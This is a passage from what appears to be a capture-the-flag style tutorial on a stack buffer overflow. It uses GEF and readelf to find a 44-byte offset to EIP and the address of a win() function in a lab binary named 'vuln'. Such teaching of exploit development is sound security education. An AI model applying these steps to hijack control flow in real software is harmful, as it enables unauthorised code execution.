 <div style="margin-top:-2.5%; margin-bottom:2.5%">We can see that <code>$eip</code> is currently overflowed with the pattern <code>0x6161616c</code> (<code>laaa</code>). let&#39;s search for this pattern using <code>pattern search</code>:</div>

<figure class="highlight plaintext">
  <figcaption><span>GEF pattern command</span><a target="_blank" rel="noopener"
      href="https://gef.readthedocs.io/en/master/commands/pattern/"><span style="color:#82C4E4">[documentation]</span></a></figcaption>
  <table>
    <tr>
      <td class="code">
        <pre><span style="color:#47D4B9"><b>gef➤  </b></span>pattern search 0x6161616c
<span style="color:#277FFF"><b>[+]</b></span> Searching for &apos;0x6161616c&apos;
<span style="color:#47D4B9"><b>[+]</b></span> Found at offset 44 (little-endian search) <span style="color:#EC0101"><b>likely</b></span>
<span style="color:#47D4B9"><b>[+]</b></span> Found at offset 41 (big-endian search) 
</pre>
      </td>
    </tr>
  </table>
</figure>


To figure out which offset we need to use, we can use `readelf` to analyze header of the `vuln` executable:

<figure class="highlight console">
  <figcaption><span>readelf command</span><a target="_blank" rel="noopener"
      href="https://man7.org/linux/man-pages/man1/readelf.1.html"><span style="color:#82C4E4">[documentation]</span></a></figcaption>
  <table>
    <tr>
      <td class="code">
        <pre><span class="line"><span class="meta prompt_">$ </span><span class="language-bash">readelf -h vuln | grep endian</span></span><br><span class="line">  Data: 2&#x27;s complement, little endian</span><br></pre>
      </td>
    </tr>
  </table>
</figure>


Our binary is in little endian, we know that 44 `A`s are needed in order to reach the `$eip`. The only thing we need now before we create our exploit is the address of the `win()` function, which will be appended to the end of our buffer to overwrite the `$eip` on the stack:

<figure class="highlight text">
  <figcaption><span>GDB x command</span><a target="_blank" rel="noopener"
      href="https://visualgdb.com/gdbreference/commands/x"><span style="color:#82C4E4">[documentation]</span></a></figcaption>
  <table>
    <tr>
      <td class="code">
<pre><span style="color:#47D4B9"><b>gef➤  </b></span>x win
<span style="color:#367BF0">0x80491f6</span> &lt;<span style="color:#FEA44C">win</span>&gt;:	0xfb1e0ff3
</pre>      </td>
    </tr>
  </table>
</figure>
